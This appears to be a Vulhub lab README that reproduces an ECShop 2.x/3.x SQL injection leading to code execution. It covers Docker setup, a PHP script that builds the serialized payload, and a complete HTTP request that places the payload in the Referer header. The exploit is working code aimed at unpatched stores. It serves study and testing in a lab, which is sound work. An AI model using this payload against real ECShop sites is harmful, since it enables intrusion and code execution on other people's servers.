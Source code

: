 # ECShop 2.x/3.x SQL Injection / Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

ECShop is a B2C independent shop system for companies and individuals to quickly build personalized online store. This system is a cross-platform open source program based on PHP language and MYSQL database architecture.

In 2017 and previous versions, there was a SQL injection vulnerability that could inject payload and eventually lead to code execution vulnerabilities. The latest version of 3.6.0 has fixed the vulnerability, and vulhub uses its latest version 2.7.3 and 3.6.0 non-latest version versions to reproduce the vulnerability.

Reference link:

- https://paper.seebug.org/691/

## Environment setup

Run the following commands to start environment

```
docker-compose up -d
```

After the environment start, visit `http://your-ip:8080`, you will see the 2.7.3 installation page. Visit `http://your-ip:8081`, you will see the 3.6.0 installation page.

Install both of them, mysql address is `mysql`, mysql account and password are `root`, the database name is free to fill in, but the database names of 2.7.3 and 3.6.0 can not be the same.

As the picture shows:

![](0.png)

## Exploit

There is a script that can generate POC for 2.x and 3.x:

```php
<?php
$shell = bin2hex("{\$asd'];phpinfo\t();//}xxx");
$id = "-1' UNION/*";
$arr = [
    "num" => sprintf('*/SELECT 1,0x%s,2,4,5,6,7,8,0x%s,10-- -', bin2hex($id), $shell),
    "id" => $id
];

$s = serialize($arr);

$hash3 = '45ea207d7a2b68c49582d2d22adf953a';
$hash2 = '554fcae493e564ee0dc75bdf2ebf94ca';

echo "POC for ECShop 2.x: \n";
echo "{$hash2}ads|{$s}{$hash2}";
echo "\n\nPOC for ECShop 3.x: \n";
echo "{$hash3}ads|{$s}{$hash3}";
```

Put POC in the HTTP-Referer:

```
GET /user.php?act=login HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Cookie: PHPSESSID=9odrkfn7munb3vfksdhldob2d0; ECS_ID=1255e244738135e418b742b1c9a60f5486aa4559; ECS[visit_times]=1
Referer: 45ea207d7a2b68c49582d2d22adf953aads|a:2:{s:3:"num";s:107:"*/SELECT 1,0x2d312720554e494f4e2f2a,2,4,5,6,7,8,0x7b24617364275d3b706870696e666f0928293b2f2f7d787878,10-- -";s:2:"id";s:11:"-1' UNION/*";}45ea207d7a2b68c49582d2d22adf953a
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0


```

Result of 2.x:

![](1.png)

Result of 3.x:

![](2.png)
